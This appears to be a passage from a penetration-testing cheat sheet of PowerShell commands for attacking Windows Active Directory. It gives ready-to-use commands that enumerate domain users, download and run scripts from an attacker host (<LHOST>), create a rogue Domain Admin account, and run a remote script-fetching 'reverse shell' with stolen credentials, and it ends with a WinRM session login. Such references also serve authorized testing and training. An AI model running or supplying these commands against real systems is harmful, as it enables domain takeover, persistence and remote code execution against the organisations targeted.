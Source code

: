 #### Get User List

```cmd
PS C:\> Get-ADUser -Filter * -SearchBase "DC=<DOMAIN>,DC=LOCAL"
```

#### Invoke-Expression File Transfer

```cmd
PS C:\> IEX(IWR http://<LHOST>/<FILE>.ps1) -UseBasicParsing)
```

#### Add new Domain Administrator

```cmd
PS C:\> $PASSWORD= ConvertTo-SecureString –AsPlainText -Force -String <PASSWORD>
PS C:\> New-ADUser -Name "<USERNAME>" -Description "<DESCRIPTION>" -Enabled $true -AccountPassword $PASSWORD
PS C:\> Add-ADGroupMember -Identity "Domain Admins" -Member <USERNAME>
```

#### Execute Commands in User Context

```cmd
PS C:\> $pass = ConvertTo-SecureString "<PASSWORD>" -AsPlaintext -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $pass)
PS C:\> Invoke-Command -computername <COMPUTERNAME> -ConfigurationName dc_manage -credential $cred -command {whoami}
```

#### Execute Scripts with Credentials (Reverse Shell)

```cmd
PS C:\> $pass = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential("<DOMAIN>\<USERNAME>", $pass)
PS C:\> Invoke-Command -Computer <RHOST> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/<FILE>.ps1') } -Credential $cred
```

#### New-PSSession

```cmd
PS C:\Users\<USERNAME>\Downloads\backups> $username = "<DOMAIN>\<USERNAME>"
$username = "<DOMAIN>\<USERNAME>"
PS C:\Users\<USERNAME>\Downloads\backups> $password = "<PASSWORD>"
$password = "<PASSWORD>"
PS C:\Users\<USERNAME>\Downloads\backups> $secstr = New-Object -TypeName System.Security.SecureString
$secstr = New-Object -TypeName System.Security.SecureString
PS C:\Users\<USERNAME>\Downloads\backups> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\Users\<USERNAME>\Downloads\backups> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\Users\<USERNAME>\Downloads\backups> new-pssession -computername . -credential $cred
new-pssession -computername . -credential $cred

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          localhost       RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\<USERNAME>\Downloads\backups> enter-pssession 1
enter-pssession 1
```